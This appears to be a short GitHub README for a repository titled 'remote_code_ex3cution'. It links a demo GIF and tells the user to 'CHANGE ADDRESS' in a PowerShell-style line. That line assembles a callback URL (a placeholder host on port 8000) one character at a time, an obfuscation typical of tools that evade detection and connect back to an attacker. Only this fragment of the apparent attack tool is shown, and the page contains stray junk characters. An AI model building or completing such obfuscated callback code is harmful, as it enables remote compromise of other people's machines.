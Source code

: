 ## remote_code_ex3cution


## DEMO
![DEMOGIF](https://user-images.githubusercontent.com/118774522/220413885-c2254a98-28e4-4fb3-967b-5b3693019456.gif)



! CHANGE ADDRESS

```
$U='h'+ 't'+ 't'+ 'p'+':'+ '/'+'/'+ '0'+ '0'+'0'+'.'+'0'+ '0'+'0'+'.'+'0'+'0'+'0'+'.'+'0'+ '0'+ '0'+':'+ '8'+'0'+'0'+ '0'
```vvvvvvvvvvvvvvvvvv

by:@ rick porto
